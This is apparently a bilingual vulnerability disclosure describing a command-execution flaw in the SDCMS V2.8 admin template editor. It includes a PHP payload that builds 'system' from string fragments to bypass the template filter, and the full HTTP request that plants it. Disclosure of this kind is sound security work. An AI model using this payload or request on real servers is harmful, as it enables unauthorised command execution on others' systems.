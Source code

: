 # SDCMS V2.8 commnd execution
*SDCMS V2.8命令执行*
## Environment
*环境*
V2.8
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009135524.png)
https://www.sdcms.cn/cms.html
## Analysis
*分析*
There is a hidden danger in the security filtering method of template content in app\\admin\\controller\\theme.php, which can cause arbitrary command execution through code injection.
*\\app\\admin\\controller\\theme.php中对模板内容安全过滤方式存在隐患，可通过代码注入造成任意命令执行*

![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141106.png)

![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141146.png)
## Verify
*证明*
In the backend template plugin ->template management, add code.
*在后台模板插件->模板管理，添加代码*
```php
{php $a='s'.'yst'.'em'; $b='dir'; $a($b);}
```
You can bypass code security verification and execute commands.
*即可绕过代码安全校验，实现命令执行*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141545.png)
Successfully saved
*成功保存*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141715.png)
```http
POST /?m=admin&c=theme&a=edit&root=ZTE3MWlQeSt1STBoNzM1WHJ5L05JYjBsZktMZU1HUHB1ZUtxRDBrWWZMMnZxcmY4Z0FPMmZtdmNuV3M= HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1908
Origin: http://localhost
Connection: close
Referer: http://localhost/?m=admin&c=theme&a=edit&root=ZTE3MWlQeSt1STBoNzM1WHJ5L05JYjBsZktMZU1HUHB1ZUtxRDBrWWZMMnZxcmY4Z0FPMmZtdmNuV3M%3D
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

file=2020%2Fcity.php&t0=OTMzZDIrVkJDWUZkTzVZYm1LRFNxei9OSTVFWlZZTGlCZmh2ajI3NUFkQzZ1aDJNaEhMZFhaTXM5U1U%3D&t1=%E5%9F%8E%E5%B8%82%E5%88%86%E7%AB%99&t2=%7Bphp+%24self_name%3D'%E5%9F%8E%E5%B8%82%E5%88%86%E7%AB%99'%7D%0D%0A%7Bphp+%24self_ename%3D'city'%7D%0D%0A%7Bphp+%24position%3D%5B%5B'name'%3D%3E%24self_name%2C'url'%3D%3ETHIS_LOCAL%5D%5D%7D%0D%0A%7Binclude+file%3D%22include%2Ftop.php%22%7D%0D%0A%3Ctitle%3E%7B%24self_name%7D_%7Bsdcms%5Bweb_name%5D%7D%3C%2Ftitle%3E%0D%0A%3Cmeta+name%3D%22keywords%22+content%3D%22%7Bsdcms%5Bseo_key%5D%7D%22%3E%0D%0A%3Cmeta+name%3D%22description%22+content%3D%22%7Bsdcms%5Bseo_desc%5D%7D%22%3E%0D%0A%3C%2Fhead%3E%0D%0A%0D%0A%3Cbody%3E%0D%0A{php+$a='s'.'yst'.'em';+$b='dir';+$a($b);}%0D%0A%09%7Binclude+file%3D%22include%2Fhead.php%22%7D%0D%0A%09%7Binclude+file%3D%22include%2Fbanner_inner.php%22%7D%0D%0A%0D%0A%09%3Cdiv+class%3D%22container%22%3E%0D%0A%09%09%3Cdiv+class%3D%22width+ui-row%22%3E%0D%0A%09%09%09%3Cdiv+class%3D%22container-left%22%3E%0D%0A%09%09%09%09%3Cdiv+class%3D%22ui-fixed-s%22+data-parent%3D%22.container%22%3E%0D%0A%09%09%09%09%09%7Binclude+file%3D%22include%2Fleft_nav.php%22%7D%0D%0A%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%0D%0A%09%09%09%3Cdiv+class%3D%22container-right%22%3E%0D%0A%09%09%09%0D%0A%09%09%09%09%3Cdiv+class%3D%22ui-box%22%3E%0D%0A%09%09%09%09%09%3Cdiv+class%3D%22ui-box-h2%22%3E%7B%24self_name%7D%3C%2Fdiv%3E%0D%0A%09%09%09%09%09%3Cdiv+class%3D%22ui-box-body%22%3E%0D%0A%09%09%09%09%09%09%3C!--begin--%3E%0D%0A%09%09%09%09%09%09%7Binclude+file%3D%22include%2Fcity.php%22%7D%0D%0A%09%09%09%09%09%09%3C!--over--%3E%0D%0A%09%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%09%0D%0A%09%09%09%3C%2Fdiv%3E%0D%0A%09%09%3C%2Fdiv%3E%0D%0A%09%3C%2Fdiv%3E%0D%0A%09%0D%0A%09%7Binclude+file%3D%22include%2Ffoot.php%22%7D%0D%0A%0D%0A%3C%2Fbody%3E%0D%0A%3C%2Fhtml%3E&token=b3b54c27848b1a21c0e3773559fccfe0
```
Visit vulnerability page.
*访问漏洞页面*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009141812.png)